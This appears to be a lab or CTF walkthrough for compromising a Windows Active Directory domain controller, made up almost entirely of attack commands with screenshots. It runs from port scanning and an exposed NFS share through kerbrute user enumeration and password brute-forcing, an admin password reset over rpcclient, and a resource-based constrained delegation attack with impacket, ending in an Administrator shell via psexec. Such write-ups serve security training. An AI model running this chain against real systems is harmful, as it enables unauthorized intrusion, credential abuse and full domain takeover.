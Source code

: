 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e9f885fc-46ae-4438-8147-55ddccd9d2bb)

```
nmap -p- 192.168.2.9 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3f135770-5829-4738-8ae3-21ee2b0d72cb)

```
showmount -e 192.168.2.9
sudo mkdir /mnt/it_stuff
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/87e21d95-1046-46f1-a021-7ec017b15afe)

```
sudo mount -t nfs 192.168.2.9:/it_stuff /mnt/it_stuff -o nolock
sudo ls -la /mnt/it_stuff
sudo ls -la /mnt/it_stuff/Scripts
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/edd45ec3-db92-4e59-a9a2-8eb0caac3cd1)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.9 user.txt
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c648b73b-a853-4d2b-959c-5e1d21192ea7)

```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.9 generated_passwords.txt valentin.badanov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/11faab34-a8b6-4690-8585-4c3b01ac054f)

```
evil-winrm -i 192.168.2.9 -u 'valentin.badanov' -p 'PASS'
```


```
rpcclient -U codeby.cdb/valentin.badanov 192.168.2.9
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/21a483cb-c563-4a3e-8c29-64251fbed323)

https://room362.com/posts/2017/reset-ad-user-password-with-linux/

https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN

```
setuserinfo2 valentin.badanov_adm 21 '123456789'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/33cbffb8-05e5-458a-a71e-6e3ad5ff4176)

evil-winrm -i 192.168.2.9 -u 'valentin.badanov_adm' -p 'PASS'

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4f25cadc-8b30-447b-a191-eaf701035dee)

```
impacket-addcomputer -computer-name 'evilcomputer$' -computer-pass ev1lP@sS -dc-ip 192.168.2.9 odeby.cdb/valentin.badanov_adm:'PASS'  -no-add
python3 rbcd.py -f EVILCOMPUTER -t HELIX -dc-ip 192.168.2.9 codeby.cdb\\valentin.badanov_adm:'PASS' 
impacket-getST -spn cifs/HELIX.codeby.cdb -impersonate Administrator -dc-ip 192.168.2.9 codeby.cdb/EVILCOMPUTER$:ev1lP@sS
```

```
impacket-getST -spn cifs/helix.codeby.cdb codeby.cdb/valentin.badanov_adm:'123456789' -dc-ip 192.168.2.9 -impersonate Administrator
export KRB5CCNAME=`pwd`/Administrator.ccache;
klist
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f7bd60f1-3529-4f09-ab7f-ef7e512e2db9)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e908323-ad3a-4480-975c-cf0195e49e2f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c31f0077-ed2c-4899-9ec7-8cff9031c8a3)

```
impacket-psexec -k helix.codeby.cdb
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c643a4c9-3d28-4f0a-98ea-5a413e0e876e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/393fd6d9-a797-429c-b46c-999d91e83505)


